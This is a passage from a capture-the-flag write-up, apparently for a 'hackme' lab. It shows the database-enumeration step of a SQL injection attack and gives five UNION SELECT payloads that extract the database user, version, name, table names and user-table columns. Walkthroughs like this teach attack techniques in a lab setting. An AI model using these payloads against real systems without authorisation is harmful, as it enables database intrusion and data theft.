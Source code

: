         <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2020-06-02-hackme-ctf-writeup/5-SQLi-proof.png">
    </div>
</div>


 The next step in enumerating the database is to test different injectable commands to gather additional information such as tables names, columns within those tables, database version, etc. To gather that information, I ran the following commands. 

```
# database user permission
' or 1=1 UNION SELECT 1,user(),3;#
# database version
' or 1=1 UNION SELECT 1,@@version,3;#
# database type
' or 1=1 UNION SELECT 1, database(),3;#
# table names
' or 1=1 UNION SELECT 1,group_concat(TABLE_NAME,0x0a),3 from information_schema.tables where table_schema=database();#
# columns in user table
' or 1=1 UNION SELECT 1,group_concat(column_name,0x0a),3 from information_schema.columns where table_name='users';#
```
